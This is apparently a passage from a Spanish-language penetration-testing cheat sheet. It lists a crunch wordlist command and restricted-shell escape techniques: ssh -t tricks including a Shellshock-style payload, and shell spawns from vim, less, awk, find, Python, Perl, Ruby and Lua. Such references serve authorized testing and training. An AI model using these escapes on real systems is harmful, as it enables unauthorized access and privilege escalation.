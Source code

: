     * 12.7. [Escalación de Privilegios](#escalación-de-privilegios-3)
    * 12.8. [Recursos y Blogs](#recursos-y-blogs)




##  1. <a name='comandos'></a>Comandos

###  1.1. <a name='linux'></a>Linux

####  1.1.1. <a name='crunch'></a>Crunch

```bash
crunch 6 6 -t Lab%%% > wordlist
```

####  1.1.2. <a name='escapar-de-una-restricted-shell'></a>Escapar de una Restricted Shell

```bash
ssh user@10.0.0.3 -t "/bin/sh"
ssh user@10.0.0.3 -t "bash --noprofile"
ssh user@10.0.0.3 -t "(){:;}; /bin/bash"

# Vim
:set shell=/bin/bash
:shell

# more, less, man, ftp, gdb
'! /bin/sh'
'!/bin/sh'
'!bash'

# AWK
awk 'BEGIN {system("/bin/sh")}'

# Find
find / -name offsec -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;

# Python
exit_code = os.system('/bin/sh') output = os.popen('/bin/sh').read()

# Perl
exec "/bin/sh";

# Ruby
exec "/bin/sh"

# Lua
os.execute('/bin/sh')
```

###  1.2. <a name='windows'></a>Windows
